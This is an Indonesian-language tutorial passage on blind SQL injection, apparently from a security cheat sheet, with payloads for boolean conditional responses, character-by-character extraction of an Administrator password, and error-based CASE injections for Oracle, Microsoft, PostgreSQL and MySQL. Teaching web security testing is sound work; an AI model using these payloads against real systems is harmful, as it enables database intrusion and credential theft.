 Output:
```sql
TABLE_CATALOG TABLE_SCHEMA TABLE_NAME COLUMN_NAME DATA_TYPE  
=================================================================  
MyDatabase dbo Users UserId int  
MyDatabase dbo Users Username varchar  
MyDatabase dbo Users Password varchar
```

## Blind SQL Injection
Ketika aplikasi rentan terhadap SQL injection, namun pada HTTP response, tidak mengandung informasi tentang SQL query ataupun error pada database. `UNION` attack tidak terlalu efektif untuk dilakukan pada blind SQL Injection, karena serangan ini bergantung kepada respon yang diberikan oleh server.

### Eksploitasi dengan Memicu Conditional Response
SQL Query:
`SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`

Cobalah dengan membuat statement bernilai benar dan statement bernilai salah. Bandingkan karakteristik berbeda pada server.
`…xyz' AND '1'='1  
…xyz' AND '1'='2`

Ekstrak password administrator, hal ini dilakukan satu persatu.
`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`

Substring, query ini akan menghasilkan foo
```SQL
SUBSTR('foobar', 1, 3) # Oracle
SUBSTRING('foobar', 1, 3) # Micrososft, PostgreSQL, MySQL
```

### Injeksi Conditional dan Memicu Error
Cek dengan injeksi, trigger error dengan percobaan 1 dibagi dengan 0.
```SQL
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a  
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

Tiap database, tekniknya berbeda
Oracle
```SQL
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual
```
Microsoft
```SQL
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
```
PostgreSQL
```SQL
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END
```
MySQL
```SQL
SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
```
